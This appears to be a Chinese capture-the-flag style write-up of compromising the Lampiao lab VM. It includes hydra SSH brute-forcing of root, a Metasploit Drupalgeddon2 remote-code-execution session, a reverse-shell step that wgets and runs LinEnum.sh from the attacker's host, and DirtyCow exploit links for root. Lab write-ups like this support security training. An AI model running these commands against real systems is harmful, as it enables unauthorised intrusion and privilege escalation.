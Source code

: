 ```yaml
---
title: Lampiao（dirtycow）
categories:
- training
tags:
- training
---
```

[参考资料：linux 提权脚本](https://www.freebuf.com/sectool/121847.html)

---

info
```
22/tcp open  ssh OpenSSH 6.6.1p1 Ubuntu
80/tcp open  http
OS details: Linux 3.2 - 4.8
```

关于80端口，肯定有防火墙之类的东东==
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/1.PNG)

dirbuster、nikto、nmap、unicornscan找不到任何信息。除了浏览器直接访问80端口，返回了一个页面，It's easy，个鬼啊！！！

最神奇的是只要burp一挂代理，目标机就没有响应了，一关代理，就返回It's easy的页面。感觉好像被靶机作者调戏了。
![12](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/12.PNG)
em...应该是连接80端口，就会发送回这个字符画。

我不想爆破ssh了，看wp吧==
看大佬表演。。
## 思路一（爆破ssh）
用nmap -p- -Pn -vv ip 扫描将近一个小时，65535个端口，可以发现1898端口开放。
根据这个端口生成一个字典，hydra爆破即可获得shell。
dirtycow exp运行一下，即可得到root权限。

cewl -w dict.txt http://192.168.11.131:1898/?q=node/1
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.1.133 ssh

好无聊，爆破什么的没有美感~~

## 思路二（cms漏洞命令执行）
#### 1898-http
该端口开放http服务，页面下方显示drupal
robots.txt提示了，`http://ip:1898/CHANGELOG.txt`
更新版本为Drupal 7.54

#### 查找可用exploit
Drupal < 7.58 - 'Drupalgeddon3'  Remote Code
```
msfconsole
search drupal
use exploit/unix/webapp/drupal_drupalgeddon2
show options
set RHOST ip
set RPORT 1898
run
shell
```
![](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/2.PNG)

#### msf导入载荷
在用metasploit找不到可用漏洞的模块情况下，可以在`https://www.exploit‐db.com/` 上搜索并保
存。
然后在/root/.msf4/modules/exploits/ 目录下新建一个自定义目录，并在该目录下存放你的msf
模块。
例如，新建/root/.msf4/modules/exploits/new ,并在该目录下存放1234.rb模块。

#### 寻找可用exp的bash脚本
[LinEnum.sh](https://github.com/rebootuser/LinEnum)，用这个提权脚本搜集可用信息。
```
kali执行：
#python -m SimpleHTTPServer
----------------
反弹shell执行：
cd /tmp
wget http://192.168.1.128:8000/LinEnum.sh
chmod a+x LinEnum.sh
./LinEnum.sh > log.txt
```
运行了提权检查脚本以后，发现输出实在太多了，而且多数是没有什么意义的输出，例如error,xxxx

如果是我来设计提权脚本，我尝试了99种，失败了98种提权尝试，那么我会输出一种可能的提权方式，而不是98失败+1成功。

---

[linux-exploit-suggester.sh](https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh)

dirty cow,exp :https://www.exploit-db.com/download/40847.cpp
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-04/3.PNG)

